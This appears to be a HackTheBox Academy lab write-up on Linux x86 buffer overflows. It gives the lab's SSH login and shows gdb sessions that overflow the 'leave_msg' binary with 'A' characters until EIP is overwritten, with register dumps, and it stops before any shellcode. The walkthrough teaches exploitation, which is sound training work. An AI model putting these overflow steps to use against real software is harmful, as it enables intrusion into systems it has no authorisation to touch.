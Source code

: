 # Buffer Overflow Linux x86 - HackTheBox Academy

jmpman | November 19th 2023

```bash
ssh htb-student@10.129.42.191 -P HTB_@cademy_stdnt!
```

---------------------------------------------------------

## Questions

1) Determine the file type of "leave_msg" binary and submit it as the answer.

```bash
file leave_msg
```

**Answer:** ELF 32-bit

2) How many bytes in total must be sent before reaching EIP?

Let's use the command where we will send the letter A to our program

```bash
(gdb) run $(python -c "print 'A' * 1200")
```

We don't break the program when we do this, but if we increase the multiplication value, we will have a segmentation fault

```bash
(gdb) run $(python -c "print 'A' * 2200")
Starting program: /home/htb-student/leave_msg $(python -c "print '\x41' * 2200")

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info registers
eax            0x0	0
ecx            0x15	21
edx            0x56558158	1448444248
ebx            0x41414141	1094795585
esp            0xffffcce0	0xffffcce0
ebp            0x41414141	0x41414141
esi            0xffffcd20	-13024
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x10282	[ SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99 
```
